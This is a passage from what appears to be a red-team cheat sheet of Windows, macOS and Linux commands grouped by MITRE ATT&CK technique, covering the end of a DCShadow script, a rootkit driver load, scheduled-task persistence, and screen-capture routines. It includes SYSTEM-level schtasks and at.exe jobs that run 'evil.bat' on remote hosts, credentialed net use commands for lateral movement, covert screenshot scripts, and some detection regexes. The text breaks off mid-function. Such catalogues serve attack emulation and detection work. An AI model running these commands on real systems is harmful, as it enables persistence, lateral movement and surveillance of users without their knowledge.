 Write-Host "`nWaiting for fake DC server to return"
Wait-Process $dc

Write-Host "`nOutput from fake DC server:"
Get-Content $dc_output_file
Start-Sleep 1 # wait a little until the file is not locked anymore so we can actually delete it
Remove-Item $dc_output_file -ErrorAction Ignore

Write-Host "End of DCShadow"
##T1014: Rootkit
* #{puppetstrings_path} C:\Drivers\driver.sys
##T1053: Scheduled Task/Job
* schtasks [/s HOSTNAME]
* cmd.exe /c schtasks
* Creating a scheduled task:
cmd.exe /c schtasks [/S HOSTNAME] /create /tn "acachesrv" /tr C:\file\path\here.exe /sc ONLOGON /ru "System" [/rp password]
Requirements for running scheduled tasks:
cmd.exe /c net start schedule
cmd.exe /c sc config schedule start= auto
* Creating a scheduled task:
schtasks [/S HOSTNAME] /create /tn "acachesrv" /tr C:\file\path\here.exe /sc ONLOGON /ru "System" [/rp password]
Requirements for running scheduled tasks:
net start schedule
sc config schedule start= auto
* schtask.exe /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10
* schtask.exe /create /tn "mysc" /tr C:\windows\system32\cmd.exe /sc ONLOGON /ru "System"
* at.exe ##:## /interactive cmd
* at.exe \\[computername|IP] ##:## c:\temp\evil.bat
* net.exe use \\[computername|IP] /user:DOMAIN\username password
* net.exe time \\[computername|IP]
* schtasks.exe /create * appdata
* \\Windows\\.+\\schtasks.exe/Create
* \\Windows\\.+\\at.exe
* powercmd.exe /c/lateral_movement/new_gpo_immediate_task
* powercmd.exe /c/persistence/elevated/schtasks
* powercmd.exe /c/persistence/userland/schtasks
##T1029: Scheduled Transfer
##T1113: Screen Capture
* xwd -root -out #{output_file}
xwud -in #{output_file}
* cmd /c start /b psr.exe /start /output c:\temp\T1113_desktop.zip /sc 1 /gui 0 /stopevent 12
Add-Type -MemberDefinition '[DllImport("user32.dll")] public static extern void mouse_event(int flags, int dx, int dy, int cButtons, int info);' -Name U32 -Namespace W;
[W.U32]::mouse_event(0x02 -bor 0x04 -bor 0x01, 0, 0, 0, 0);
cmd /c "timeout #{recording_time} > NULL && psr.exe /stop"
* import -window root /tmp/T1113_desktop.png
* Add-Type -AssemblyName System.Windows.Forms
$screen = [Windows.Forms.SystemInformation]::VirtualScreen
$bitmap = New-Object Drawing.Bitmap $screen.Width, $screen.Height
$graphic = [Drawing.Graphics]::FromImage($bitmap)
$graphic.CopyFromScreen($screen.Left, $screen.Top, 0, 0, $bitmap.Size)
$bitmap.Save("$env:TEMP\T1113.png")
* screencapture -x /tmp/T1113_desktop.png
* xwd -root -out /tmp/T1113_desktop.xwd
xwud -in /tmp/T1113_desktop.xwd
* screencapture /tmp/T1113_desktop.png
* for i in {1..5}; do screencapture -t png screen-$i.png; echo "$(cd "$(dirname "$1")"; pwd -P)/$(basename "screen-$i.png")"; sleep 5; done;
* $loadResult = [Reflection.Assembly]::LoadWithPartialName("System.Drawing");
function screenshot([Drawing.Rectangle]$bounds, $path) {
   $bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height;
   $graphics = [Drawing.Graphics]::FromImage($bmp);
